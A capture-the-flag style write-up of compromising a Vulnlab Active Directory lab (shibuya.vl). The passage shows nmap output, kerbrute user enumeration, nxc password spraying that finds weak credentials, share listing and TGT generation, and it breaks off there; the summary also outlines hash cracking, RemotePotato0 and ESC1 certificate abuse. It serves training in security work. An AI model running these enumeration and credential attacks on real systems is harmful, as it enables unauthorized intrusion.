








**Target:**   `10.129.234.42`
**Domain:**   `shibuya.vl`
**Date:**     November 2026
**Platform:** Vulnlab
## Executive Summary
This report documents the full compromise of the shibuya.vl domain, a Kerberos-only environment with NTLM disabled domain-wide. With the guest account disabled, `kerbrute` enumerated valid users, and a service-account password leaked in an LDAP description granted read access to an `images$` share containing deployment WIM files. Mounting the images and locally dumping the embedded SAM/SYSTEM/SECURITY hives recovered cached credentials; a DCC2 hash was cracked to authenticate as `simon.watson`, whose SSH-group membership allowed an authorized-key foothold. From there, RemotePotato0 coerced and captured an NTLMv2 response for `nigel.mills` (cracked offline, since NTLM relay was unavailable), and SOAPHound enumerated AD over ADWS/SOAP to reveal an ESC1-vulnerable `SHIBUYAWEB` template. A certificate impersonating the renamed RID-500 `_admin` account (with embedded SID for strong mapping) yielded a TGT and NT hash, giving SYSTEM on the domain controller.

## Initial Recon

### Nmap Scan

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ cat Shibuya.txt 
# Nmap 7.98 scan initiated Wed Nov 18 00:13:07 2026 as: /usr/lib/nmap/nmap -p- -Pn -sC -sV -A -T4 -vv -oN Shibuya.txt 10.129.234.42
Nmap scan report for 10.129.234.42
Host is up, received user-set (0.065s latency).
Scanned at 2026-11-18 00:13:08 GMT for 190s
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-11-18 00:28:03Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: shibuya.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AWSJPDC0522.shibuya.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:AWSJPDC0522.shibuya.vl
| Issuer: commonName=shibuya-AWSJPDC0522-CA/domainComponent=shibuya
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2026-11-18T00:07:54
| Not valid after:  2027-11-18T00:07:54
| MD5:     a102 31f4 a9fb dc96 0ba0 7870 b1b0 c033
| SHA-1:   4d06 3510 739b d4a0 7374 d36b 25ab 2d48 ce39 6e9c
| SHA-256: 94e6 e600 3ced 7cdb 22d3 4874 0479 b61a 53cc 8482 7446 22e8 e708 365b 53ca 2a27
| -----BEGIN CERTIFICATE-----
| MIIHUjCCBTqgAwIBAgITIwAAAAOpKBveoHaSrAAAAAAAAzANBgkqhkiG9w0BAQ0F
| ADBOMRIwEAYKCZImiZPyLGQBGRYCdmwxFzAVBgoJkiaJk/IsZAEZFgdzaGlidXlh
| MR8wHQYDVQQDExZzaGlidXlhLUFXU0pQREMwNTIyLUNBMB4XDTI2MTExODAwMDc1
| NFoXDTI3MTExODAwMDc1NFowITEfMB0GA1UEAxMWQVdTSlBEQzA1MjIuc2hpYnV5
| YS52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAOFyux9Vl+VbuvDb
| HUFYmjykt04EF5cAk0mpy7wspBW4KbQjHT3SXUjKwePu2pBzn5TBKi7B8M72OzD3
| LbW+VtghixUto/1L0iCXF8pHgbqh2JUhHGG+t5+N8u1TcrbAxvlBoPF8aEZwVgTp
| T2pin4rQBfYgy9EvWZAUdnNE47/L7r9MwbTdROwfD+MpX0hbW4tUeQM9hpm4lnEc
| Luto3tHOoDqxxLi/BuXFgNNw+44QBBkSJJaSfm8hRVUXMPoXgYLs41//SAD+h/eX
| 3tBQXIGqmxk8KNS6/06clfDHb2N1dK0IrkI2tZzZd1c5r9kyDaVWqRmVHEynSP0Q
| 6JZP0T0CAwEAAaOCA1QwggNQMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4A
| QwBvAG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUH
| AwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwIC
| AgCAMA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsG
| CWCGSAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYD
| VR0OBBYEFHEP46uXC9qB8HlD5Y+EwNOdPbVJMB8GA1UdIwQYMBaAFCzjRoHfuTtp
| jt20d8ArgsWOOQj4MIHXBgNVHR8Egc8wgcwwgcmggcaggcOGgcBsZGFwOi8vL0NO
| PXNoaWJ1eWEtQVdTSlBEQzA1MjItQ0EsQ049QVdTSlBEQzA1MjIsQ049Q0RQLENO
| PVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3Vy
| YXRpb24sREM9c2hpYnV5YSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0
| P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgccGCCsGAQUF
| BwEBBIG6MIG3MIG0BggrBgEFBQcwAoaBp2xkYXA6Ly8vQ049c2hpYnV5YS1BV1NK
| UERDMDUyMi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zaGlidXlhLERDPXZsP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MEIGA1UdEQQ7MDmgHwYJKwYBBAGCNxkBoBIEEKx5OE1J+zFCjiPfBfWRnFyCFkFX
| U0pQREMwNTIyLnNoaWJ1eWEudmwwTAYJKwYBBAGCNxkCBD8wPaA7BgorBgEEAYI3
| GQIBoC0EK1MtMS01LTIxLTg3NTYwMDk1LTg5NDQ4NDgxNS0zNjUyMDE1MDIyLTEw
| MDAwDQYJKoZIhvcNAQENBQADggIBAFYlX53b5LufolokldNIFjocc2ZTWysXQs3f
| PfzejJFgX1Ri4qOxVXyTph+JaFI/Na61H7HOzDkZNFg0DA6RvyrxvEm5G3fbxUWV
| luMnfIhlzC1M1Kc0bph29Ofi3DKxD9kfnFI9bNpjLmiji+M7GwVQwW2Dob8fuI8E
| rNAOiLcc5c/KIKDMMaCJfz2jMoUhPqRvckZseCgUThuxYZQyRSh44j/2RipXLr20
| dLYqDDOWwIKTElNxcexo4hPDoot9E6bGWi1rpxmn8gl3Y95SlFb/q/aQB/Gs5kF8
| lfKFfaeHVVzDr/skASTrX9ARM7qN9w3gLIAMGc6/GB4OKtUmXoVPAv5/lclUJKAb
| 6IAqx2+3y3Jeg4typg5WIurSHQ5YS7IwQt/tU4GFqmMzryupKYxGRtFBHoZPEK0p
| aCvevaX+FbRouERnTetx3TOua4QEkr0+ClZ4UHSGI5DsbTabzOYnj6YJ2ckeNHrD
| F4ASmqHcagTcTy/x4S9qUDhMLWIw6W+P65Lr41kfFwpjQ2lSuUtu9zwMiC0VoBAr
| QWviiNojg3ZQtb9hca7c2fAFUOEETwblyCb2CaQRGIBmJGtnMILZNT9MBx6n3ezr
| y98bBNvuhhoni4HlvyS+Vvr2qZn+yjFgK7w77i9wdb0ykcyszfcBxLHGCunOi2s2
| 9WjN/1PF
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: shibuya.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AWSJPDC0522.shibuya.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:AWSJPDC0522.shibuya.vl
| Issuer: commonName=shibuya-AWSJPDC0522-CA/domainComponent=shibuya
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2026-11-18T00:07:54
| Not valid after:  2027-11-18T00:07:54
| MD5:     a102 31f4 a9fb dc96 0ba0 7870 b1b0 c033
| SHA-1:   4d06 3510 739b d4a0 7374 d36b 25ab 2d48 ce39 6e9c
| SHA-256: 94e6 e600 3ced 7cdb 22d3 4874 0479 b61a 53cc 8482 7446 22e8 e708 365b 53ca 2a27
| -----BEGIN CERTIFICATE-----
| MIIHUjCCBTqgAwIBAgITIwAAAAOpKBveoHaSrAAAAAAAAzANBgkqhkiG9w0BAQ0F
| ADBOMRIwEAYKCZImiZPyLGQBGRYCdmwxFzAVBgoJkiaJk/IsZAEZFgdzaGlidXlh
| MR8wHQYDVQQDExZzaGlidXlhLUFXU0pQREMwNTIyLUNBMB4XDTI2MTExODAwMDc1
| NFoXDTI3MTExODAwMDc1NFowITEfMB0GA1UEAxMWQVdTSlBEQzA1MjIuc2hpYnV5
| YS52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAOFyux9Vl+VbuvDb
| HUFYmjykt04EF5cAk0mpy7wspBW4KbQjHT3SXUjKwePu2pBzn5TBKi7B8M72OzD3
| LbW+VtghixUto/1L0iCXF8pHgbqh2JUhHGG+t5+N8u1TcrbAxvlBoPF8aEZwVgTp
| T2pin4rQBfYgy9EvWZAUdnNE47/L7r9MwbTdROwfD+MpX0hbW4tUeQM9hpm4lnEc
| Luto3tHOoDqxxLi/BuXFgNNw+44QBBkSJJaSfm8hRVUXMPoXgYLs41//SAD+h/eX
| 3tBQXIGqmxk8KNS6/06clfDHb2N1dK0IrkI2tZzZd1c5r9kyDaVWqRmVHEynSP0Q
| 6JZP0T0CAwEAAaOCA1QwggNQMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4A
| QwBvAG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUH
| AwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwIC
| AgCAMA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsG
| CWCGSAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYD
| VR0OBBYEFHEP46uXC9qB8HlD5Y+EwNOdPbVJMB8GA1UdIwQYMBaAFCzjRoHfuTtp
| jt20d8ArgsWOOQj4MIHXBgNVHR8Egc8wgcwwgcmggcaggcOGgcBsZGFwOi8vL0NO
| PXNoaWJ1eWEtQVdTSlBEQzA1MjItQ0EsQ049QVdTSlBEQzA1MjIsQ049Q0RQLENO
| PVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3Vy
| YXRpb24sREM9c2hpYnV5YSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0
| P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgccGCCsGAQUF
| BwEBBIG6MIG3MIG0BggrBgEFBQcwAoaBp2xkYXA6Ly8vQ049c2hpYnV5YS1BV1NK
| UERDMDUyMi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zaGlidXlhLERDPXZsP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MEIGA1UdEQQ7MDmgHwYJKwYBBAGCNxkBoBIEEKx5OE1J+zFCjiPfBfWRnFyCFkFX
| U0pQREMwNTIyLnNoaWJ1eWEudmwwTAYJKwYBBAGCNxkCBD8wPaA7BgorBgEEAYI3
| GQIBoC0EK1MtMS01LTIxLTg3NTYwMDk1LTg5NDQ4NDgxNS0zNjUyMDE1MDIyLTEw
| MDAwDQYJKoZIhvcNAQENBQADggIBAFYlX53b5LufolokldNIFjocc2ZTWysXQs3f
| PfzejJFgX1Ri4qOxVXyTph+JaFI/Na61H7HOzDkZNFg0DA6RvyrxvEm5G3fbxUWV
| luMnfIhlzC1M1Kc0bph29Ofi3DKxD9kfnFI9bNpjLmiji+M7GwVQwW2Dob8fuI8E
| rNAOiLcc5c/KIKDMMaCJfz2jMoUhPqRvckZseCgUThuxYZQyRSh44j/2RipXLr20
| dLYqDDOWwIKTElNxcexo4hPDoot9E6bGWi1rpxmn8gl3Y95SlFb/q/aQB/Gs5kF8
| lfKFfaeHVVzDr/skASTrX9ARM7qN9w3gLIAMGc6/GB4OKtUmXoVPAv5/lclUJKAb
| 6IAqx2+3y3Jeg4typg5WIurSHQ5YS7IwQt/tU4GFqmMzryupKYxGRtFBHoZPEK0p
| aCvevaX+FbRouERnTetx3TOua4QEkr0+ClZ4UHSGI5DsbTabzOYnj6YJ2ckeNHrD
| F4ASmqHcagTcTy/x4S9qUDhMLWIw6W+P65Lr41kfFwpjQ2lSuUtu9zwMiC0VoBAr
| QWviiNojg3ZQtb9hca7c2fAFUOEETwblyCb2CaQRGIBmJGtnMILZNT9MBx6n3ezr
| y98bBNvuhhoni4HlvyS+Vvr2qZn+yjFgK7w77i9wdb0ykcyszfcBxLHGCunOi2s2
| 9WjN/1PF
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2026-11-18T00:29:37+00:00; +13m20s from scanner time.
| ssl-cert: Subject: commonName=AWSJPDC0522.shibuya.vl
| Issuer: commonName=AWSJPDC0522.shibuya.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-17T00:17:02
| Not valid after:  2027-05-19T00:17:02
| MD5:     a9af 17e5 cf8d 61ae 5fae 8088 d83e 6b5f
| SHA-1:   ac24 1c31 de44 a05d ee55 98ef 4b64 e81a 57bc 2fdb
| SHA-256: d342 2dfb 6d68 acfc 937b 784d 2d39 3db8 baa7 2a18 d870 f9ea b0bc a318 f4ca dfbd
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQMKcXU56WeIVFan4Asqt82jANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZBV1NKUERDMDUyMi5zaGlidXlhLnZsMB4XDTI2MTExNzAwMTcw
| MloXDTI3MDUxOTAwMTcwMlowITEfMB0GA1UEAxMWQVdTSlBEQzA1MjIuc2hpYnV5
| YS52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM5DXPHNU/xgwvXt
| S9/EeVM1FwxrIvCYJynGe2p9hsx2+QX86O2tSQegDjg2bSWmwvk8rsLpbJzD5xV/
| M+GkumtsiW7C9uRg+/JtQTF9GTtyE04+/m5aRTnBxY0jBkYojtOk8ABLptO1En1u
| MUm8yfYiwGN4APOxYT03b3hc0hE72HzvqqHlj+wFDsvKaglDkOVvzYtXKFFrbZvD
| C0M/DXfPkQdzLbLDr9O1SA75irf6ZN5+VEyNjfesvU8+ex+0RdWmn6VX2EFKcguW
| xHt7wDUfkbTjD8XQoZwcW9uCtlkKW1/u+0kXGtBoDaxs488D60pis9T5NvRMMSpF
| 7x0C0qUCAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQBiMCXD6y1c1kVU9D8YmyK5B9TqL954iYDaTCPb
| rZUGnMaqzxFNmq5EUAxJMDnCC7H7vn4DTf6pPEqu5cfU2I9ORqIkI0N37ug1lxMU
| OO40MI1TyJ7s+78EUI4VSVd1MAejVLnYMGl/4B2At4mGl3ayfAIooSpiXRgoaAaS
| eNuHAfrfgEngaHqFPls1TjetpuYBuGw9Gt7kwGCVgoOjKD8B3v2fKRbFCYF+HTsS
| eDNgrr2EXVpB7mv3EwGIvt2wbGDyEAbbfvokn23XokIy/19HxakeZUEZMxl4VJMz
| mhWdB3r3pCD+JCMyQEu0lIA8gfOhVer5QO6plFlgbjcH16/g
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: SHIBUYA
|   NetBIOS_Domain_Name: SHIBUYA
|   NetBIOS_Computer_Name: AWSJPDC0522
|   DNS_Domain_Name: shibuya.vl
|   DNS_Computer_Name: AWSJPDC0522.shibuya.vl
|   DNS_Tree_Name: shibuya.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-18T00:28:57+00:00
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52773/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
57294/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63886/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63901/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63919/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=11/18%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6AFCEE52%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=A)
SEQ(SP=FC%GCD=1%ISR=105%TI=I%II=I%SS=S%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.009 days (since Wed Nov 18 00:03:24 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: AWSJPDC0522; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 13m19s, deviation: 0s, median: 13m19s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 65218/tcp): CLEAN (Timeout)
|   Check 2 (port 51887/tcp): CLEAN (Timeout)
|   Check 3 (port 22528/udp): CLEAN (Timeout)
|   Check 4 (port 61695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-11-18T00:29:01
|_  start_date: N/A

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   92.85 ms 10.10.16.1
2   92.94 ms 10.129.234.42

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 18 00:16:18 2026 -- 1 IP address (1 host up) scanned in 191.30 seconds
```

update the clock skew
```bash
┌──(penguin㉿0X0F)-[~/OSCP]
└─$ sudo ntpdate 10.129.234.42
2026-11-18 00:32:47.614730 (+0000) +800.281996 +/- 0.013559 10.129.234.42 s1 no-leap
CLOCK: time stepped by 800.281996
```

we can update our host file resolve it locally



## SMB enumeration

the guest account is disabled  : ( 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u "guest" -p "" --shares
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\guest: STATUS_ACCOUNT_DISABLED 
```
also i am not able to authenticate with empty username and password on ldap it just keep loading 
next we could try to brute force the username with `kerbrute`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ kerbrute userenum -d shibuya.vl  --dc 10.129.234.42  /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/18/26 - Ronnie Flathers @ropnop

2026/11/18 00:47:21 >  Using KDC(s):
2026/11/18 00:47:21 >   10.129.234.42:88

2026/11/18 00:47:21 >  Done! Tested 17 usernames (0 valid) in 0.173 seconds
```

we cant try with biggerwordlist now


we got two user at the moment we can try enumerate with those first 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u "username.txt" -p "username.txt" -k --no-bruteforce --continue-on-success 
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Purple:Purple KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Red:Red KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\purple:purple 
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\red:red 
```
Two users has got hit with kerberos authentication we can try to check if they have any non-default shares
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u "username.txt" -p "username.txt" -k --no-bruteforce --shares
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\purple:purple 
SMB         10.129.234.42   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.129.234.42   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.129.234.42   445    AWSJPDC0522      -----           -----------     ------
SMB         10.129.234.42   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.129.234.42   445    AWSJPDC0522      C$                              Default share
SMB         10.129.234.42   445    AWSJPDC0522      images$                         
SMB         10.129.234.42   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.129.234.42   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      users           READ            

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u "red" -p "red" -k --no-bruteforce --shares
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\red:red 
SMB         10.129.234.42   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.129.234.42   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.129.234.42   445    AWSJPDC0522      -----           -----------     ------
SMB         10.129.234.42   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.129.234.42   445    AWSJPDC0522      C$                              Default share
SMB         10.129.234.42   445    AWSJPDC0522      images$                         
SMB         10.129.234.42   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.129.234.42   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      users           READ         
```

they do have access to  Read`users`   to check the shares we need the TGT ticket of any of the users , i am gonna use nxc for that here 

> Note - you can also use impacket for it for me its easier to generate  with nxc

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u "red" -p "red" -k  --generate-tgt /home/penguin/OSCP/Shibuya/red
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
